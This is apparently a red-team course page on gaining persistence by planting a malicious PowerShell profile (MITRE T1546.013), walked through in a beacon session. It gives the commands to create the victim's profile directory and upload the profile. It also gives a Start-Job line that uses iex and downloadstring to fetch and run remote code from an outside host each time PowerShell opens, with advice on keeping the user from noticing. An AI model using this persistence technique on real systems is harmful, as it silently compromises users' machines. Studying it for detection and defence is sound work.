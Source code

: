 A PowerShell profile, `profile.ps1`, is a script that executes when new PowerShell windows are opened by a user.  Developers often use these to customise the appearance and behaviour of their PowerShell sessions.  An adversary can create or modify the profile of a user to execute malicious code [T1546.013](https://attack.mitre.org/techniques/T1546/013/)


Microsoft publishes details on where these profiles can be created for both [PowerShell](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_profiles?view=powershell-5.1) and [PowerShell Core](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_profiles?view=powershell-7.4).  For example, `$HOME\Documents\WindowsPowerShell\Profile.ps1`.

If the profile and/or directory doesn't exist, just create it.

```powershell
ls C:\Users\pchilds\Documents

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     12/22/2024 16:47:10   My Music
          dir     12/22/2024 16:47:10   My Pictures
          dir     12/22/2024 16:47:10   My Videos
 402b     fil     12/22/2024 16:47:22   desktop.ini
 
beacon> mkdir C:\Users\pchilds\Documents\WindowsPowerShell
beacon> cd C:\Users\pchilds\Documents\WindowsPowerShell
```

It's important not to put any code into the profile that will block because the user will not be presented with an input prompt until the profile script has finished executing.  Some workarounds include executing the payload via the [Start-Job](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/start-job?view=powershell-5.1) cmdlet.

For example:

```powershell
$_ = Start-Job -ScriptBlock { iex (new-object net.webclient).downloadstring("http://bleepincomputer.com/a") }
```

Then upload the profile to the user's WindowsPowerShell directory.

```powershell
beacon> upload C:\Payloads\Profile.ps1
```